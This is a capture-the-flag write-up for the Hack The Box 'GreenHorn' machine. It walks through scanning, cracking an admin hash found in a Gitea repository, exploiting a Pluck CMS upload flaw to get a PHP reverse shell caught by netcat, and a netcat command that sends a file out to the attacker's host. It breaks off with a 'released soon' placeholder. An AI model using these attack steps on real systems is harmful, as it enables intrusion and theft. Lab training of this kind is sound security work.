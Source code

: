 ```yaml
---
title: "Hackthebox: GreenHorn [Machine] [Season 6]"
author: c3l1kd
categories: [Hackthebox]
tags:
  [
    Privilege Escalation,
    Reverse Shell,
    Nmap,
    wfuzz,
    Exploitation,
    Web Server,
  ]
render_with_liquid: false
img_path: /images/hackthebox_greenhorn/
image:
  path: room_image.png
---
```


**GreenHorn** is an easy machine by `HackTheBox` where we are dealing with a Pluck web application , digging around we find the source code of the web app from there we gain access to admin panel where we exploit an `RCE Vulnerability` to have the first footsteps into the host through a reverse shell we escalate our privileges with a reverse pixelation process in order to get access to the root account and pwn the box!

## Initial Enumeration
### Nmap Scan

```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ nmap -sC -sV 10.10.11.25 -vv -T4 -oN greenhorn.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 16:57 BST
Nmap scan report for 10.10.11.25
Host is up, received syn-ack (0.081s latency).
Scanned at 2024-07-22 16:57:38 BST for 108s
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOp+cK9ugCW282Gw6Rqe+Yz+5fOGcZzYi8cmlGmFdFAjI1347tnkKumDGK1qJnJ1hj68bmzOONz/x1CMeZjnKMw=
|   256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEZQbCc8u6r2CVboxEesTZTMmZnMuEidK9zNjkD2RGEv
80/tcp    open     http    syn-ack     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp  open     ppp?    syn-ack
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=2b902fd2ed32071b; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=hbNLRwhYbcm71RS5XEXV974Gmmg6MTcyMTY2Mzg3ODM3ODI3MzUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 22 Jul 2024 15:57:58 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=c7995b3c12500d5a; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=OlKBqV4gv32ldNqNJ6Ixz5N6jgM6MTcyMTY2Mzg4NDEyOTYwOTY3MA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 22 Jul 2024 15:58:04 GMT
|_    Content-Length: 0
32783/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have identified `4` ports using nmap,

- **22/SSH** - (`open`)
- **80/HTTP** - (`open`)
- **3000/HTTP**- (`open`)
- **32783/UNKNOWN** - (`filtered`)

**Web Server at Port 80**
visiting the web server on port `80`, the server redirects us to `http://greenhorn.htb`, adding that to the `/etc/hosts`

```console
127.0.0.1       localhost
127.0.1.1       Voldemort
10.10.11.25     greenhorn.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
Looking at the web server it seems like it’s running Pluck, a PHP CMS.

![/etc/hosts](01.png){: width="1200" height="800" }

Looking through the web server nothing seems interesting, testing for LFI it doesn’t seem to work neither. Heading to the admin panel, a password is being required and we have been given the Pluck version. As a basic intution, searching that version over exploit-db won’t help us neither.


![/etc/hosts](02.png){: width="1200" height="800" }

**Web Server at Port 3000**

As we reach a dead end on port 80, we decided to look at the port 3000 where we found a free-password Gitea repository which had the source code of the web application hosted on port 80 `GreenHorn`


![/etc/hosts](03.png){: width="1200" height="800" }

Digging through the source code looking for config files, we come across a password file located at
`http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php`

![/etc/hosts](04.png){: width="1200" height="800" }

Passing the hash to hashcat we were able to crack it and retrieve the admin password.
```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ hashcat -a0 -m1700 hash.txt /usr/share/wordlists/rockyou.txt --show
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d[REDACTED]:[REDACTED]
```
Putting the password in `http://greenhorn.htb/login.php` we were able to `login` successfully.

![/etc/hosts](05.png){: width="1200" height="800" }

**Exploitation**
**Horizontal Escalation - user.txt**
It’s time for a reverse shell, we know that Pluck 4.7.18 is vulnerable to [RCE](https://www.exploit-db.com/exploits/51592), we can upload a malicious ZIP file that contains a PHP script that will establish a connection for us.

```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ zip reverse.zip reverse.php             
  adding: reverse.php (deflated 59%)
```
![/etc/hosts](06.png){: width="1200" height="800" }
Setting up a listener using netcat, we instantly get a shell as `www-data`!
```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ nc -lnvp 4444   
listening on [any] 4444 ...
connect to [10.10.15.7] from (UNKNOWN) [10.10.11.25] 57100
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 19:12:53 up 6 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
Upgrading the shell to a stable one,

```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@greenhorn:/$ export TERM=xterm
export TERM=xterm
www-data@greenhorn:/$ ^Z
zsh: suspended  nc -lnvp 4444
                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 4444

www-data@greenhorn:/$
```
Looking for existing users on the host, we find git and junior.

```console
www-data@greenhorn:/$ ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Jun 20 06:36 .
drwxr-xr-x 20 root   root   4096 Jun 20 07:06 ..
drwxr-x---  2 git    git    4096 Jun 20 06:36 git
drwxr-xr-x  3 junior junior 4096 Jun 20 06:36 junior
www-data@greenhorn:/$
```
Connecting to Junior with the password we got from cracking the hash we were able to switch to Junior’s account

```console
www-data@greenhorn:/tmp$ su junior
Password: 
junior@greenhorn:/tmp$ cd
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
```
Once we get access to junior we can read the `user.txt` file!

**Vertical Escalation - root.txt**

Inside the home directory of junior we can see that there is a PDF file `'Using OpenVAS.pdf'`, we transfer it to our local machine with nc

```console
junior@greenhorn:~$ nc -q 0 10.10.15.7 9000 < 'Using OpenVAS.pdf'
```

<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">

  <style>
    .note-containers {
      max-width: 600px;
      width: 100%;
      padding: 20px;
      background-color: #28a745;
      color: white;
      border-radius: 15px;
      box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
      text-align: center;
      margin: 0 auto; /* Ensures the second container is centered */
    }

    .note-containers p {
      font-size: 1.2rem;
      line-height: 1.6;
    }

    .note-containers strong {
      font-weight: bold;
      font-size: 1.3rem;
      color: #ffdd57;
    }
  </style>
</head>
<body>
  <div class="note-containers">
    <p>
      This writeup will be released <strong>soon!</strong>
    </p>
  </div>
</body>
</html>

